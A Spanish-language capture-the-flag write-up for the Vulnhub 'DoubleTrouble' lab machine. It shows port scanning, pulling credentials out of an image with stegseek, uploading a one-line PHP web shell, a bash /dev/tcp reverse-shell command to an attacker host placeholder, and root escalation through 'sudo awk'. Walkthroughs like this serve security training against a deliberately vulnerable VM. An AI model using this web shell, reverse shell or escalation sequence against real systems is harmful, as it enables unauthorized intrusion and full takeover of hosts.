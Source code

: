 ```yaml
---
title: Vulnhub - DoubeTrouble
author: cotes
date: 2023-10-11 17:51:00 +0800
categories: [Writeup, Vulnhub, Easy]
tags: [Linux, 'Esteganografía', 'File Upload']
math: true
mermaid: true
image:
  path: /assets/images/Vulnhub/Easy/DoubleTrouble/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: DoubeTrouble Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnhub.

Técnicas usadas: **Esteganografía, File Upload**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

  ![](/assets/images/Vulnhub/Easy/DoubleTrouble/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos

* **`nmap -p22,80 -sCV <IP> -oN versiones`**

  ![](/assets/images/Vulnhub/Easy/DoubleTrouble/02-versions.png)

c. Tenemos un panel de login del servicio **qdPM**. Al no tener credenciales lo que haremos es un fuzzing de directorios y ficheros

```bash
❯ nmap -p80 --script http-enum 192.168.100.47

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|   /robots.txt: Robots file
|   /batch/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /core/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /install/: Potentially interesting folder
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /secret/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|   /template/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.38 (debian)'
MAC Address: 08:00:27:FF:B5:83 (Oracle VirtualBox virtual NIC)
```

* El directorio más relevante es `/secret`, aquí encontraremos una imagen en la cual es oculta un fichero

    ```bash
    ❯ stegseek doubletrouble.jpg -xf data
    StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

    [i] Found passphrase: "92camaro"       
    [i] Original filename: "creds.txt".

    ❯ cat data
    otisrush@localhost.com
    otis666
    ```


d. Podemos subir un fichero .php en la ruta `/myAccount`


* reverse.php

    ```php
    <?php system($_GET["cmd"]); ?>
    ```

    ![](/assets/images/Vulnhub/Easy/DoubleTrouble/03-file.png)

> A pesar de ver un error al subir el fichero, este si se habrá guardado
{: .prompt-tip }

* La ruta donde se almacenan los ficheros es **/uploads/users/**


e. Nos entablamos una reverse shell" `/uploads/users/842071-reverse.php?cmd=bash -c "bash -i >%26 /dev/tcp/<IP Host>/<Port> 0>%261"`

```bash
❯ nc -lvnp 443
<SNIP>
www-data@doubletrouble:/var/www/html/uploads/users$
```

### Escalada de Privilegios 💹

a. Listamos nuestros permisos a nivel de sudoers

```bash
www-data@doubletrouble:/var/www/html/uploads/users$ sudo -l
    (ALL : ALL) NOPASSWD: /usr/bin/awk
```

* Buscamos en [**GTFOBins**](https://gtfobins.github.io/gtfobins/awk/#sudo) una forma de escalar privilegios

    ```bash
    www-data@doubletrouble:/var/www/html/uploads/users$ sudo awk 'BEGIN {system("/bin/sh")}'
    whoami
    root
    ```